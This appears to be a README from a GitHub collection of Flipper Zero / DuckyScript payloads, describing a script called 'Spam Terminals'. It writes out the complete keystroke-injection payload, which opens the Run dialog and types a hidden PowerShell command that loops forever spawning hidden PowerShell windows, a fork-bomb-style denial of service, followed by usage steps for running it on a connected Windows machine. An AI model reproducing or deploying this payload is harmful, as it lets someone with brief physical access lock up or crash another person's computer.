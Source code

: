 # Spam Terminals - By bst04

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script, created by bst04, is designed to work on Windows devices. It opens an infinite number of hidden PowerShell terminals, effectively spamming the system with terminal instances.


## Technical Explanation

1. **Initialization**:
    - `GUI r`: Simulates pressing "Windows" + "R" to open the Run dialog.
    - `DELAY 250`: Waits for 0.25 seconds to ensure the Run dialog is open.

2. **Execute PowerShell Command**:
    - `STRING powershell -WindowStyle Hidden -Command "while ($true) { Start-Process powershell -ArgumentList '-NoExit', '-Command', 'Start-Process powershell -WindowStyle Hidden -ArgumentList \"-NoExit\", \"-Command\", \"Start-Process powershell -WindowStyle Hidden\"' }"`: Types a PowerShell command that runs an infinite loop, continuously opening hidden PowerShell windows.
    - `DELAY 1000`: Waits for 1 second to ensure the command is fully typed.

3. **Start the Command**:
    - `ENTER`: Executes the PowerShell command.

---

## Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a Windows system.
3. Execute the payload to open an infinite number of hidden PowerShell terminals.